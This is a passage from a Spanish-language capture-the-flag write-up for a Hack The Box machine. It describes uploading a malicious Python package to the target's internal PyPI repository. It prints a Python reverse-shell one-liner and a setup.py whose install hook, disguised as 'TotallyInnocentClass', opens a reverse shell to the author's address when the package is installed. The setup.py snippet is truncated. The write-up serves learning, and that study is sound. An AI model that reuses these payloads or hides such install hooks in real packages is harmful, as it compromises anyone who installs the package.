Bueno, con base en lo que nos muestra `http://pypi.sneakycorp.htb:8080/` nos da una idea que podemos instalar paquetes en su "repositorio" interno. Pues creemos nuestro paquete malicioso y subámoslo al repositorio `pypi.sneakycorp.htb/simple`.

...

Buscando en internet sobre maneras de explotar PyPI y sus paquetes, encontré unos retos tipo CTF para aprender sobre el tema, acá se los dejo:

* [Python PyPI Challenges](https://attackdefense.com/listingnoauth?labtype=code-repos&subtype=code-repos-pypi).
* [Articulo de un investigador que ha encontrado varios paquetes maliciosos sobre PyPI](https://medium.com/@bertusk/detecting-cyber-attacks-in-the-python-package-index-pypi-61ab2b585c67).

...

Esta máquina me desquicio, pero fue muy divertida e interesante... Acá me estanque fuertemente, ya que el proceso de crear el paquete "malicioso" (que llamaremos **pycod3ate**) estaba siendo algo difícil de entender... Además me estaba complicando de más:

Siguiendo esta guía, genere la estructura inicial.

* [Packaging tutorial python.org](https://packaging.python.org/tutorials/packaging-projects/).

Primero monte todo en mi máquina y cuando ya posiblemente tuviera todo bien lo pasaría a la máquina víctima.

Lo importante será crear nuestro `setup.py` que será el que contendrá la información del paquete que subiremos, pero además tendrá el código malicioso, así cuando en la máquina víctima le indiquemos que ejecute el `setup.py` ejecutara de paso nuestro payload :)

De manera sencilla podemos decirle al script que nos genere una reverse Shell (que si traemos el recuerdo de los mails, sabemos que las tareas sobre paquetes son llevadas a cabo por `low`, por lo tanto obtendremos una sesión como el), yo tome la clásica de Python:

* [Reverse shells cheat sheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Entonces dentro de la clase que se ejecutara pondremos:

```py
import socket, subprocess, os

from setuptools import setup
from setuptools.command.install import install

class TotallyInnocentClass(install):
    def run(self):
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.15.86",4444))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"]);

        install.run(self)

setup(
    name="pycod3ate",
    version="0.0.5",
    author="exeTera",
    author_email="hor@exe.com",
    description="Killing me",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
```